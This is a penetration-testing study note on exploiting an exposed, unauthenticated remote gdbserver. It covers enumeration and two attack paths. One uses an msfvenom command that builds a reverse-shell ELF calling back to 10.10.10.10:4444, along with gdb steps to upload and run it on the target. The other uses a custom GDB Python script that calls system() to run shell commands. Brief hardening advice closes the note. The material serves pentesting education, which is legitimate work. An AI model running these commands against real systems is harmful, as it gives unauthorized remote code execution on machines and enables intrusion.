

# 45 - Remote GDBServer Pentesting

## 1. Executive Summary

`gdbserver` runs a program on a "target" host and lets the **GNU Debugger** connect remotely from a "host" machine over TCP (or serial) to debug it. Like JDWP, it has **no authentication** — anyone who can reach the gdbserver port has full debug control of the process, which means **arbitrary code execution**. It can listen on **any port** and **nmap cannot fingerprint it**, so it is often found by manual probing. Two clean exploitation paths: upload+run an msfvenom ELF backdoor, or drive the debugger to execute commands directly via a custom GDB Python script.

## 2. Protocol Overview & Architecture

gdbserver exposes the **GDB Remote Serial Protocol**. A remote `gdb` attaches, gains full control of the debugged process (read/write memory and registers, set breakpoints, load symbols, call functions). Because you can make the process call arbitrary functions and run uploaded binaries, debug access == code execution as the user running gdbserver. No credentials are exchanged.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p <port> <IP>     # often shows 'unknown' — gdbserver isn't recognised
# Manual: try attaching; a gdbserver answers the GDB remote protocol
gdb -ex "target remote <IP>:<port>" -ex "info functions" -ex quit
```

## 4. Exploitation Deep Dive

### 4.1 msfvenom ELF Backdoor (simplest)
Create an ELF payload, deliver it, and have the debugger run it:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
# attach and run the uploaded binary through gdbserver
gdb binary.elf
(gdb) target extended-remote <IP>:<port>
(gdb) remote put binary.elf /tmp/binary.elf
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
```
`PrependFork=true` keeps the debugged process alive after the shell forks.

### 4.2 Direct Command Execution via Custom GDB Script
When you cannot upload, load a custom GDB Python command (`rcmd`) that resolves a libc `system`-style symbol and invokes it to run shell commands on the target:
```bash
gdb -x rcmd.py
(gdb) target remote <IP>:<port>
(gdb) rcmd id
```
The script disables fork-follow detach, unlimited value sizes and pagination so output captures cleanly.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE as the user running gdbserver (often a service/dev account).
- Loot source/binaries present for debugging; pivot internally.

## 7. Defense & Hardening
1. Never expose gdbserver to the network; debug over `127.0.0.1` + SSH tunnel only.
2. Kill stray gdbserver processes in production; treat debug ports as critical.
3. Firewall/deny all unidentified high ports; monitor for GDB remote protocol traffic.

## 8. Chaining Opportunities
- Same no-auth debug-RCE family as **[[44 - JDWP (Port 8000) Pentesting]]**.
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[44 - JDWP (Port 8000) Pentesting]]

## 10. Tools
`gdb`, `gdbserver`, `msfvenom`, custom `rcmd.py` GDB script.
